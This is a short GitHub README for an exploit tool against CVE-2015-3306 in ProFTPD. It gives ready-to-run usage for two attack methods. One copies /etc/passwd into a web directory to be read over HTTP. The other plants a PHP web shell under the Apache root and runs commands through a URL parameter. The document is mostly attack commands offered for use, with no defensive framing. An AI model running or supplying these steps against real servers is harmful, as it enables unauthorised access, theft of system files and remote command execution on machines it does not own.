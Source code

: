 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

METHOD 1:
-------
usage: 

```
python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

METHOD 2:


usage: 

```
python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>
```

ex:

```
python cpx_proftp.py 2 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/xxx.php?img=ls
```
